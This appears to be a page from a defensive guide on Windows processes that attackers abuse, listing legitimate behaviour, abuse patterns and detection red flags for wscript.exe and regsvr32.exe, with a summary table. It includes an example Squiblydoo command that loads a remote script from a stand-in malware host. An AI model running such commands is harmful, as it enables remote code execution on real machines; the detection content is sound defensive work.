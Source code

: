 
## **9. `wscript.exe` / `cscript.exe` (Windows Script Host)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\`  
- **Purpose:** Runs `.vbs`, `.js` scripts.  

### **Malicious Abuse:**
- **Malicious Script Execution:**  
  - `wscript.exe C:\malware\payload.vbs`  
  - **Obfuscated JS/VBS scripts.**  

### **Detection:**
✅ **Check:**  
- **Script Content Analysis** (Use **VirusTotal**).  
- **Parent Process** (Legitimate: `explorer.exe` | Malicious: `word.exe`).  

🔴 **Red Flags:**  
- Scripts from `Temp` or `Downloads`.  

---

## **10. `regsvr32.exe` (Registers DLLs)**
### **Legitimate Behavior:**
- **Location:** `C:\Windows\System32\regsvr32.exe`  
- **Purpose:** Registers/unregisters DLLs.  

### **Malicious Abuse:**
- **Squiblydoo Attack:**  
  - `regsvr32 /s /n /u /i:http://malware.com/payload.sct scrobj.dll`  
  - Executes remote scripts.  

### **Detection:**
✅ **Check:**  
- **Command-Line Arguments** (Legitimate: `/s filename.dll` | Malicious: `/i:http://...`).  

🔴 **Red Flags:**  
- `regsvr32.exe` loading scripts from the web.  

## **Summary Table: Legitimate vs. Malicious Indicators**
| **Process**       | **Legitimate** | **Malicious** |
|-------------------|---------------|---------------|
| **`svchost.exe`** | Multiple instances, signed, `System32` | Non-`System32`, unusual `-k` parameter |
| **`explorer.exe`** | Runs from `System32`, no network calls | Spawns `cmd.exe`, runs from `Temp` |
| **`lsass.exe`**   | Runs under `wininit.exe` | Accessed by `mimikatz.exe` |
| **`rundll32.exe`** | Runs signed DLLs | Runs from `AppData`, malicious DLLs |
| **`powershell.exe`** | Clean commands | Obfuscated, encoded scripts |
| **`mshta.exe`**   | Rarely used | Runs remote HTA files |
| **`wscript.exe`**  | Runs `.vbs` scripts | Executes obfuscated JS/VBS |
| **`regsvr32.exe`** | Registers DLLs | Executes remote `.sct` files |
